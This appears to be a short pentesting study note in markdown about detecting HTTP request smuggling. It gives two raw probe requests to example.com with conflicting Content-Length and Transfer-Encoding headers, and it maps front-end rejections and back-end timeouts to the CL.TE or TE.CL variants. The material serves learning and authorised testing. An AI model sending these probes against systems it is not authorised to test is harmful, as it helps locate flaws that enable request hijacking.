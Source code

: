 # Pre-requisites
![[Preparing Steps for Http Request smugglind.png]]
# Detection
![[Detection HTTP Request Smuggling.png]]
Req 1:
``` HTTP 
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```
Req 2:
```HTTP
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

X
```


### For Request 1
###### Front-end Rejected -> TE.{CL OR TE}![[Invalid Chunk SIze.png]]
###### Backend Timeout -> CL.TE
![[Backend Timeout first req.png]]

### For Request 2
###### Backend Timeout -> TE.CL
![[Backend Timeout req 2.png]]

